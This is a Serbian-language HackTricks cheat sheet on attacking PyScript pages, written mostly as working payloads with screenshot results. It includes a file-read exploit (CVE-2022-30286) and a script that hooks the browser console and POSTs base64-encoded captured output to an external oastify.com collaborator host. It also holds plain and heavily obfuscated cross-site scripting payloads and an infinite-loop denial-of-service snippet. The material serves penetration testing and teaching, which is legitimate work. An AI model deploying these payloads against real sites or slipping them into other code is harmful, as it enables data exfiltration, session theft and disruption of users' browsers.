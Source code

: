 # Pyscript

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Vodič za Pentesting sa PyScript-om

PyScript je novi okvir razvijen za integrisanje Pythona u HTML tako da se može koristiti zajedno sa HTML-om. U ovom cheat sheet-u, pronaći ćete kako koristiti PyScript za potrebe testiranja penetracije.

### Dumping / Dobijanje fajlova iz Emscripten virtuelnog memorijskog fajl sistema:

`CVE ID: CVE-2022-30286`\
\
Kod:
```html
<py-script>
with open('/lib/python3.10/site-packages/_pyodide/_base.py', 'r') as fin:
out = fin.read()
print(out)
</py-script>
```
Rezultat:

![](https://user-images.githubusercontent.com/66295316/166847974-978c4e23-05fa-402f-884a-38d91329bac3.png)

### [OOB Data Exfiltration of the Emscripten virtual memory filesystem (console monitoring)](https://github.com/s/jcd3T19P0M8QRnU1KRDk/\~/changes/Wn2j4r8jnHsV8mBiqPk5/blogs/the-art-of-vulnerability-chaining-pyscript)

`CVE ID: CVE-2022-30286`\
\
Kod:
```html
<py-script>
x = "CyberGuy"
if x == "CyberGuy":
with open('/lib/python3.10/asyncio/tasks.py') as output:
contents = output.read()
print(contents)
print('<script>console.pylog = console.log; console.logs = []; console.log = function(){     console.logs.push(Array.from(arguments));     console.pylog.apply(console, arguments);fetch("http://9hrr8wowgvdxvlel2gtmqbspigo8cx.oastify.com/", {method: "POST",headers: {"Content-Type": "text/plain;charset=utf-8"},body: JSON.stringify({"content": btoa(console.logs)})});}</script>')
</py-script>
```
Rezultat:

![](https://user-images.githubusercontent.com/66295316/166848198-49f71ccb-73cf-476b-b8f3-139e6371c432.png)

### Cross Site Scripting (Obično)

Kod:
```python
<py-script>
print("<img src=x onerror='alert(document.domain)'>")
</py-script>
```
Rezultat:

![](https://user-images.githubusercontent.com/66295316/166848393-e835cf6b-992e-4429-ad66-bc54b98de5cf.png)

### Cross Site Scripting (Python Obfuscated)

Kod:
```python
<py-script>
sur = "\u0027al";fur = "e";rt = "rt"
p = "\x22x$$\x22\x29\u0027\x3E"
s = "\x28";pic = "\x3Cim";pa = "g";so = "sr"
e = "c\u003d";q = "x"
y = "o";m = "ner";z = "ror\u003d"

print(pic+pa+" "+so+e+q+" "+y+m+z+sur+fur+rt+s+p)
</py-script>
```
Rezultat:

![](https://user-images.githubusercontent.com/66295316/166848370-d981c94a-ee05-42a8-afb8-ccc4fc9f97a0.png)

### Cross Site Scripting (JavaScript Obfuscation)

Kod:
```html
<py-script>
prinht("<script>var _0x3675bf=_0x5cf5;function _0x5cf5(_0xced4e9,_0x1ae724){var _0x599cad=_0x599c();return _0x5cf5=function(_0x5cf5d2,_0x6f919d){_0x5cf5d2=_0x5cf5d2-0x94;var _0x14caa7=_0x599cad[_0x5cf5d2];return _0x14caa7;},_0x5cf5(_0xced4e9,_0x1ae724);}(function(_0x5ad362,_0x98a567){var _0x459bc5=_0x5cf5,_0x454121=_0x5ad362();while(!![]){try{var _0x168170=-parseInt(_0x459bc5(0x9e))/0x1*(parseInt(_0x459bc5(0x95))/0x2)+parseInt(_0x459bc5(0x97))/0x3*(-parseInt(_0x459bc5(0x9c))/0x4)+-parseInt(_0x459bc5(0x99))/0x5+-parseInt(_0x459bc5(0x9f))/0x6*(parseInt(_0x459bc5(0x9d))/0x7)+-parseInt(_0x459bc5(0x9b))/0x8*(-parseInt(_0x459bc5(0x9a))/0x9)+-parseInt(_0x459bc5(0x94))/0xa+parseInt(_0x459bc5(0x98))/0xb*(parseInt(_0x459bc5(0x96))/0xc);if(_0x168170===_0x98a567)break;else _0x454121['push'](_0x454121['shift']());}catch(_0x5baa73){_0x454121['push'](_0x454121['shift']());}}}(_0x599c,0x28895),prompt(document[_0x3675bf(0xa0)]));function _0x599c(){var _0x34a15f=['15170376Sgmhnu','589203pPKatg','11BaafMZ','445905MAsUXq','432bhVZQo','14792bfmdlY','4FKyEje','92890jvCozd','36031bizdfX','114QrRNWp','domain','3249220MUVofX','18cpppdr'];_0x599c=function(){return _0x34a15f;};return _0x599c();}</script>")
</py-script>
```
Rezultat:

![](https://user-images.githubusercontent.com/66295316/166848442-2aece7aa-47b5-4ee7-8d1d-0bf981ba57b8.png)

### DoS napad (Beskonačna petlja)

Kod:
```html
<py-script>
while True:
print("&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;")
</py-script>
```
Rezultat:

![](https://user-images.githubusercontent.com/66295316/166848534-3e76b233-a95d-4cab-bb2c-42dbd764fefa.png)

{% hint style="success" %}
Učite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks obuka AWS Red Tim Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks obuka GCP Red Tim Ekspert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
